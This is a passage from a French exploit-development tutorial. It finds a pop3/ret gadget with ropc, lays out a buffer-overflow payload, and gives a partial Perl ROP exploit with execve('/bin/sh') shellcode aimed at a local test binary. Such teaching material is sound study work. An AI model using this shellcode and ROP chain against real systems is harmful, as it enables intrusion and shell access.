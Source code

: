 On a également besoin d'un gadget pour dépiler les arguments de read :

	:::console
	$ ropc -f ./a.out -g -F | grep pop
	0x080484bd  -> pop esi ; pop edi ; pop ebp ; ret ;

On a tout ce qu'il faut pour réaliser notre exploit !
Notre payload ressemblera à :

	:::console
	[292 | PADDING | recv@plt (saved-eip) | pop3; ret | STDIN | Adresse .bss | shellcode len | Adresse .bss ]

Voici l'exploit commenté (en Perl of course) :

	:::perl
	#!/usr/bin/perl

	use strict;
	use warnings;
	use IO::Socket::INET;

	my $sock = IO::Socket::INET->new(PeerAddr => 'localhost',
									 PeerPort => 4444,
									 Proto    => 'tcp');

	die("Can't connect : $!\n") if(!$sock);

	my $buff;

	my $shellcode = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

	my $payload;
	my $bss = 0x08049720;
	my $read_plt = 0x080482d0;
	my $pop3_ret = 0x080484bd;

	# Buffer len
	$payload .= pack('L', 292);

	# Padding
	$payload .= "A"x268; 

	# Read@plt function
	$payload .= pack('L', $read_plt);
	$payload .= pack('L', $pop3_ret);
	$payload .= pack('L', 0);
	$payload .= pack('L', $bss);
	$payload .= pack('L', length $shellcode);

	$payload .= pack('L', $bss);
